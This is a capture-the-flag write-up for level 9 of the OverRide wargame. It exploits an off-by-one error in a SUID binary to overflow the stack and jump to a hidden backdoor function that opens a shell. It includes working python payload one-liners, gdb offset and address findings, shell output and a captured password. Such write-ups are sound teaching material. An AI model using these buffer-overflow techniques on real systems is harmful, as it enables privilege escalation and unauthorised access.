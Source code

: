 # Level 9

## Vulnerability

Off-by-one error allows buffer overflow

## Context

We find a binary with owner ```end``` and SUID.
```
level09@OverRide:~$ ls -l
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

When run it prompts user for a username, and a message which is supposedly sent to *Unix-Dude*.
```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Drew
>: Welcome, Drew
>: Msg @Unix-Dude
>>: Dear Unix-Dude, lots of love, Drew
>: Msg sent!
level09@OverRide:~$
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level09/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

### Overview

The binary simply prompts for, then copies, username and a message.

Investigating with gdb we find a hidden function ```secret_backdoor()```, which reads to a buffer from stdin, then calls ```system()``` with the buffer. Obviously we would like to jump to ```secret_backdoor()``` somehow, and enter ```/bin/sh``` on stdin, to open a shell.

### Off-by-one error

The copy username loop has an off-by-one error, which allows the user to overwrite the ```len_message``` variable by one byte.

A larger ```len_message``` than the default 140 can cause strncpy to overflow the buffer when copying the *Msg*.

So let's fill the 40 byte username buffer then overflow by 1 byte into ```len_message```, writing the maximum 1 byte value ```0xff```.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude

>>: >: Msg sent!

Segmentation fault (core dumped)
```
Great, its segfaults.

### Find RSP offset

Can we overflow and overwrite the return address with the address of ```secret_backdoor()```?

Since the binary was compiled in 64-bit, RSP (not EIP) is the return address register.

[Using this buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following example in gdb, we find we start to overwrite RSP after 200 bytes.
```
level09@OverRide:~$ gdb -q level09
...
(gdb) run
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp                                              // RSP return address
0x7fffffffe588:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"  // We find this string in the pattern string above after 200 characters
```

### Find secret_backdoor address

Finally we need to find the address of ```secret_backdoor()```.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Build exploit

So we build our exploit string:
1. 40 byte username buffer, until overflow ```len``` - ```"A" * 40```
2. 1 byte, max value, overwrite ```len``` - ```\xff```
3. new line, enter unsername - ```\n```
4. 200 byte msg buffer, until overflow RSP - ```"A" * 200```
5. overwrite RSP with address of ```secret_backdoor()``` - ```\x8c\x48\x55\x55\x55\x55\x00```
6. new line, enter msg - ```\n```
7. system() open shell command - ```/bin/sh```

Let's pipe our exploit string into the binary stdin.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## End

Let's log in to user ```end```.
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```
Good Game !
